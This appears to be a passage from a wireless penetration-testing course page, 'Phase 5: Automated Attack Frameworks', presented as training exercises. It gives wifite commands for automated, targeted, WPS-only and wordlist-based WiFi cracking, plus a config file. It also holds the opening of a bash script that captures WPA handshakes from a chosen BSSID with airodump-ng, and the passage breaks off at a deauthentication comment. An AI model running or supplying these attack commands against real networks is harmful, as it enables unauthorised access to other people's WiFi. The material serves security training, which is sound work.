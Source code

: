 
## 📊 Phase 5: Automated Attack Frameworks

### **Exercise 5.1: Wifite Integration**

**Objective**: Use automated wireless attack frameworks for comprehensive testing.

**Wifite Setup**:
```bash
# Install wifite
sudo apt install wifite

# Basic automated attack
sudo wifite --kill

# Specific target attack
sudo wifite --bssid 00:11:22:33:44:55

# WPS-only attack
sudo wifite --wps-only

# Custom wordlist
sudo wifite --dict custom_wordlist.txt
```

**Custom Wifite Configuration**:
```bash
# Create custom config
cat > wifite_config.py << 'EOF'
#!/usr/bin/env python3

# Custom configuration for wifite
WPA_ATTACK_TIMEOUT = 300
WPA_HANDSHAKE_TIMEOUT = 60
WPS_ATTACK_TIMEOUT = 1800
WPS_FAIL_THRESHOLD = 100
WPS_TIMEOUT_THRESHOLD = 10
EOF
```

### **Exercise 5.2: Custom Attack Scripts**

**Objective**: Develop custom automation scripts for specific scenarios.

**Automated Handshake Capture**:
```bash
#!/bin/bash
# handshake_hunter.sh

TARGET_BSSID="$1"
CHANNEL="$2"
INTERFACE="wlan0mon"

if [ -z "$TARGET_BSSID" ] || [ -z "$CHANNEL" ]; then
    echo "Usage: $0 <BSSID> <CHANNEL>"
    exit 1
fi

# Start monitoring
airodump-ng -c $CHANNEL --bssid $TARGET_BSSID -w handshake_$(date +%Y%m%d_%H%M%S) $INTERFACE &
AIRODUMP_PID=$!

# Wait for clients to associate
sleep 30

# Deauthenticate clients
```